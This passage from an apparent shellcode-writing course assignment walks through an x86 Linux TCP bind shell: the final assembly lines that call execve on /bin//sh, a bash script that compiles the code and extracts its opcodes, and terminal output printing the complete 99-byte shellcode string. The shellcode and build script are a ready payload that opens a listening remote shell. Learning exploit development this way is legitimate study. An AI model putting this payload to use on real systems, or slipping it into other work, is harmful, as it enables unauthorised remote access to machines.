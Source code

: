 ```
	push   0x6e69622f ; nib/ - Pushing /bin//sh onto stack in reverse for EBX		:	[execve --> REF9]
	mov    ebx,esp	; setting EBX to address of /bin//sh
	xor    ecx,ecx
	xor    esi,esi
	int    0x80	; [*] Calling: execve(/bin//sh0x00)
```

If you didn't you do now!

For your own sake, make sure you read over it and fully understand it. It'll help you to understand how it works on a fundamental level.


## Testing our bind shell

So if you're not aware we can't just run assembly from the file, it first needs to be compile and then linked.

During my testing I went ahead and created a file that foes all this along with dumping the shellcode of the compiled file. Please use it to compile your assembly file:
```
# This compiles your assembly code and dumps the shellcode 

# Compile and output
nasm -f elf32 -o $1.o $1.asm; ld -d -o $1 $1.o

# Gets shellcode from output file

## Prints the shellcode in little endian

RAW=$(objdump -d "$1" | grep "^ "|awk -F"[\t]" '{print $2}')
SHELLCODE=""
COUNT=0
for word in $RAW
do
	SHELLCODE=${SHELLCODE}${word:6:2}${word:4:2}${word:2:2}${word:0:2}
	((COUNT++))
done
echo ""
echo "Shellcode: "
echo $SHELLCODE | sed 's/ //g'| sed 's/.\{2\}/\\x&/g'|paste -d '' -s
echo "Shellcode size: ${COUNT} bytes"
```


You then pass the name (NOT INCLUDING EXTENSION) as an argument to the bash file to compile and link it like so:
```
root@ubuntu:/mnt/hgfs/assembly/exam/1-Assignment/# ./compile-shell-dump.sh bind_shell_tcp

Shellcode: 
\x31\xc0\xb0\x66\x31\xdb\x53\x43\x53\x6a\x02\x89\xe1\xcd\x80\x31\xf6\x89\xc6\xb0\x66\x5b\x5a\x31\xd2\x52\x66\x68\x11\x5c\x6a\x10\x51\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x56\x31\xc9\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x56\x89\xe1\xcd\x80\x31\xdb\x89\xc3\x31\xc9\xb1\x02\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xf6\xcd\x80
Shellcode size: 99 bytes
root@ubuntu:/mnt/hgfs/assembly/exam/1-Assignment/# ls
bind_shell_tcp  bind_shell_tcp.asm  bind_shell_tcp.o  compile-shell-dump.sh
```
